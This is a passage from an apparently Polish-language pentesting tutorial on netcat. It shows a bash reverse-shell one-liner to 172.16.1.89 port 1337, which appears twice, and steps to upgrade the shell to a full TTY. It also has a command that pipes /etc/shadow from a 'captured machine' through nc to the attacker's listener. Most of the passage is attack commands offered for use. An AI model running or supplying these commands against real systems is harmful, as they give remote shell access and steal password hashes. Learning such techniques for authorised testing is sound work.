 Po wejściu na konsolę, podczas ruszania strzałkami są **krzaki**. Również po naciśnięciu **ctrl+c** wychodzi się z konsoli. Jest na to rada. Kiedy uruchamiamy nasz **Reverse Shell** przez _bash -i &> /dev/tcp/172.16.1.89/1337 0>&1_, lub podanymi wcześniej sposobami należy pamiętać o wpisaniu _script /dev/null -c /bin/bash_. Więc kiedy jesteśmy już w konsoli wciskamy **ctrl+z** (zadanie w tle)
{: .text-justify}
```bash
[root@rocky8-test1 ~]# ^Z      
[1]+  Zatrzymano              nc -lvnp 1337
```
Następnie:
{: .text-justify}
```bash
stty raw -echo; fg
reset xterm
```
Teraz można dowolnie sterować strzałkami (_ctrl+c_ nie zamyka konsoli):
{: .text-justify}
```bash
[root@rocky8-test1 ~]# ^C ^C
```
Aby **polepszyć** wygląd i wczytać zmienne można dopisać:
```bash
export TERM=xterm-256color
export SHELL=bash
stty rows 44 columns 185
source /etc/skel/.bashrc
```
# Wyszedłem z konsoli, ale nic nie mogę napisać
Spoko, wystarczy że wpiszesz:
{: .text-justify}
```bash
stty sane
```
# Na przejętej maszynie nie ma Nc
Nie przejmuj się, możesz **Basha** użyć do przerzucenia **Basha** :smiley: Jednak ta metoda działa już na przejętej maszynie
{: .text-justify}
```bash
bash -i &> /dev/tcp/172.16.1.89/1337 0>&1
```
# Co jeszcze mogę zrobić z Nc?
## Wysyłanie plików
Możesz przerzucić plik - akurat tutaj polecam **Nc** w wersji **OpenBSD** - w ten sposób:
{: .text-justify}
### Przejęta maszyna 
Jak już wcześniej wspomniałem przełącznik _-N_ działa tylko na **Nc** z **OpenBSD**. Po przesłaniu pliku program sam kończy prace. Niestety w przypadku innego - tradycyjnego, z pakietu _nmap_ - trzeba po wysłaniu pliku, wcisnąć _ctrl+c_ aby zakończyć.
{: .text-justify}
```bash
cat /etc/shadow | nc -vN 172.16.1.89 1337 
```
```bash
Connection to 172.16.1.89 1337 port [tcp/menandmice-dns] succeeded!
```
### Nasza maszyna
```bash
nc -lvnp 1337 > shadow
```